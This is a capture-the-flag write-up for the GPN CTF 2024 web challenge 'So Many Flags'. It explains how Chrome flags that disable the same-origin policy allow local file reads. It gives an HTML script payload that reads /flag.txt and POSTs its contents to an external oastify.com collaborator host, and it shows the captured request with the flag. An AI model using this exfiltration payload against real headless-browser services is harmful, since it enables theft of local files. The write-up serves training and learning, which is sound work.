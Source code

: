 ```yaml
---
ctf-event: GPN CTF 2024
date: 2024-06-01
ctf-team: luxeria
ctf-task: So many flags
ctf-category: web
ctf-difficulty: 
---
```

# So Many Flags

## Description

> I heard you like flags, so I launched Chrome with a lot of flags so you can get your flag!
> 
> The flag is in `/flag.txt`, and the bot will visit the HTML file you uploaded!

## Analysis

There is a file upload form:
![](_attachments/Pasted%20image%2020240601203901.png)

Google Chrome is started with numerous flags and the uploaded file:
```js
const command = `bash -c "google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run ${flags}     ${filePath}"`;
```

The following flags are included, which disable the same origin policy and allow local file access:
```text
--disable-web-security -–allow-file-access-from-files --allow-file-access --allow-cross-origin-auth-prompt --user-data-dir
```

It's therefore possible to read files from other origins, including the `file://` URI scheme for local files.

## Solution

Upload a HTML file which reads the local file:
```html
<script>
  async function getFlag(){
    response = await fetch("file:///flag.txt");
    flag = await response.text();
    fetch("https://lk922ygynkim4zy48onzs2xaw12sqnec.oastify.com/", { method: "POST", body: flag})
  };
  getFlag();
</script>
```

The server will read the flag and send it to the external system:
```http
POST / HTTP/1.1
Host: lk922ygynkim4zy48onzs2xaw12sqnec.oastify.com
[...]

GPNCTF{CL1_FL4G5_4R3_FL4G5_T00}
```